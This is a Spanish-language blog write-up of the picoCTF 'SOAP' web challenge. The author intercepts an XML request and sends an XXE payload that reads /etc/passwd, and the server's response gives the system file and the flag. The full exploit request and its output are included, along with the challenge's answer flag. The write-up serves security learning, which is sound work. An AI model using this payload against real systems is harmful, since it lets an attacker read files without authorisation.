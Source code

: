 ```yaml
---
title: SOAP
date: 2025-07-23 21:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, explotación web, xml external injection]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```

>SOAP
Author: Geoffrey Njogu
Description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? Web Portal
{: .prompt-tip }

Este reto comienza retándonos a leer el archivo **/etc/passwd**. En las pistas nos hablan de una inyección (XXE) XML External Entity Injections. 

``` html 
Computer Science

We have been ranked to be among the best universities in the world!

Carnegie Mellon University Africa Offers 3 masters degree programs.

PicoCTF A free Computer Security education program.

Upanzi Network an inititiave aimed at driving financial inclusion.
```

El contenido de la web muestra un título y tres universidades cada una acompañada de un botón **Details**
Capturo con Zap para ver que es lo que se envía cuando pulsas el botón de alguna de las universidades.

``` html
POST http://saturn.picoctf.net:55284/data HTTP/1.1
Host: saturn.picoctf.net:55284
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Referer: http://saturn.picoctf.net:55284/
Content-Type: application/xml
Content-Length: 61
Origin: http://saturn.picoctf.net:55284
Connection: keep-alive
Priority: u=0

<?xml version="1.0" encoding="UTF-8"?><data><ID>2</ID></data>
```
Lo que se envía es un tipo de datos XML, se supone que se puede intentar hacer una inyección (XXE) External Entity Injection. Busco de nuevo un payload y como no me encuentro de nuevo esta maravilla de repositorio con el ejemplo que necesito [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection). 

``` html
POST http://saturn.picoctf.net:55284/data HTTP/1.1
host: saturn.picoctf.net:55284
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Referer: http://saturn.picoctf.net:55284/
Content-Type: application/xml
content-length: 131
Origin: http://saturn.picoctf.net:55284
Connection: keep-alive
Priority: u=0

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data><ID>&xxe;</ID></data>
```
Y al funcionar la inyección nos muestra la flag.

``` shell 
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Wed, 23 Jul 2025 20:55:55 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1023
Connection: close

Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}
```

flag: **picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}**

¿Que puedo decir? [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)